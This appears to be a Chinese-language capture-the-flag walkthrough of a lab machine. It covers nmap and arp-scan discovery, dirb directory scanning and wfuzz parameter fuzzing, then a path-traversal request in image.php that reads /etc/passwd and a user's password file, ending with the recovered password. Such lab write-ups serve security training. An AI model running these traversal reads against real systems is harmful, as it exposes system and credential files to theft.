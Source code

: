 ### 1、主机发现

> ```
>  nmap -sP 172.20.10.1/24
> ```
>
> 主机ip：靶机iphttp://172.20.10.6
>
> <img src="https://tva1.sinaimg.cn/large/008i3skNly1gvku6gh8sdj60ry0dq0uc02.jpg" alt="image-20211019191815269"  />
>
> 
>
> ```
> arp-scan -l
> ```
>
> ![image-20211019192332461](https://tva1.sinaimg.cn/large/008i3skNly1gvkubt6806j60uq0a040602.jpg)





### 2、端口扫描

>```
>nmap -p 1-65535 -A 172.20.10.6
>```
>
>>端口 打开的端口 22   80
>
>![image-20211019192009604](https://tva1.sinaimg.cn/large/008i3skNly1gvku8a1vh3j60wu0fc0va02.jpg)

### 3、查看80端口的web

![image-20211019192527624](https://tva1.sinaimg.cn/large/008i3skNly1gvkudt639jj60ml0d5my502.jpg)

>#### 1.目录扫描
>
>  ```
>  dirb http://172.20.10.6
>  ```
>
>​	发现目录1./dev  2. /wordpress
>
>```
>dirb http://172.20.10.6 -X .txt,.php,.zip
>```
>
>   发现文件
>
>​	![image-20211019202837839](https://tva1.sinaimg.cn/large/008i3skNly1gvkw7j2afij60mu04ut9802.jpg)
>
>  查看文件
>
>```
>curl http://172.20.10.6/secret.txt
>```
>
>#### 返回提示
>
>>  Looks like you have got some secrets.
>>
>> Ok I just want to do some help to you.
>>
>> Do some more fuzz on every page of php which was finded by you. And if
>> you get any right parameter then follow the below steps. If you still stuck
>> Learn from here a basic tool with good usage for OSCP.
>>
>> https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
>>
>> 
>>
>> //see the location.txt and you will get your next move//



>### fuzz
>
>```
>wfuzz  -c -w /usr/share/wfuzz/wordlist/general/common.txt cural http://172.20.10.6/index.php?FUZZ=ww
>```
>
>![image-20211019194719545](https://tva1.sinaimg.cn/large/008i3skNly1gvkv0t35guj61700k8tbl02.jpg)
>
>找到参数 file



>#### 根据上面提示访问
>
> 	`http:172.20.10.6/index.php?flie=location.txt`
>
>![image-20211019203607026](https://tva1.sinaimg.cn/large/008i3skNly1gvkwfajujsj30fk072t8w.jpg)



> ### 根据提示访问
>
> `http://172.20.10.6/image.php?secrettier360=/etc/passwd/`
>
> ![image-20211019204745123](https://tva1.sinaimg.cn/large/008i3skNly1gvkwrgd5yxj60u00zagtj02.jpg)





>![image-20211019211015472](https://tva1.sinaimg.cn/large/008i3skNly1gvkxetgmakj60rk016q2y02.jpg)
>
>`curl http://172.20.10.6/image.php\?secrettier360\=../../../home/saket/password.txt`
>
>![image-20211019211044599](https://tva1.sinaimg.cn/large/008i3skNly1gvkxfbmd2aj608204vjrb02.jpg)
>
>得到 saket 的密码是follow_the_ippsec



d













